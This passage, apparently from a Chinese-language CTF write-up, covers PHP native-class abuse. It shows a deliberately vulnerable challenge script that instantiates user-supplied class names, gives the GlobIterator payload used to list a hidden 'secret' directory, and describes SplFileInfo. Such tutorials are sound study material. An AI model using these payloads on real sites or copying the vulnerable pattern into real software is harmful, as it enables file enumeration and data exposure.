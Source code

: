 ```php
<?php
highlight_file('index.php');
# 我把flag藏在一个secret文件夹里面了，所以要学会遍历啊~
error_reporting(0);
$J1ng = $_POST['J'];
$Hong = $_POST['H'];
$Keng = $_GET['K'];
$Wang = $_GET['W'];
$dir = new $Keng($Wang);
foreach($dir as $f) {
    echo($f . '<br>');
}
echo new $J1ng($Hong);
?>
```

做法和上两个基本一致：

```
?K=GlobIterator&W=/secret/f*
```

![image-20240921143123902](https://gitee.com/bx33661/image/raw/master/path/image-20240921143123902.png)



## 文件读取原生类

### SplFileInfo类

> SplFileInfo 类提供了一个面向对象的接口来获取文件的信息。它是许多其他 SPL 文件系统类的基础，如 DirectoryIterator 和 FilesystemIterator。

```php
$file = new SplFileInfo('/path/to/file.txt');
echo $file->getFilename(); // 输出: file.txt
```

值得注意的是

SplFileInfo 的局限性： SplFileInfo 主要用于获取文件的元数据（如文件名、大小、权限等），而不是直接读取文件内容。

```php
//例子
<?php
$file = new SplFileInfo('E:\untitled1\flag.php');

echo "File: " . $file->getFilename() . "\n";
echo "Size: " . $file->getSize() . " bytes\n";
echo "Last modified: " . date('Y-m-d H:i:s', $file->getMTime()) . "\n";
echo "Permissions: " . substr(sprintf('%o', $file->getPerms()), -4) . "\n";
echo "Is readable: " . ($file->isReadable() ? 'Yes' : 'No') . "\n";
echo "Is writable: " . ($file->isWritable() ? 'Yes' : 'No') . "\n";
```

![image-20240921144926098](https://gitee.com/bx33661/image/raw/master/path/image-20240921144926098.png)
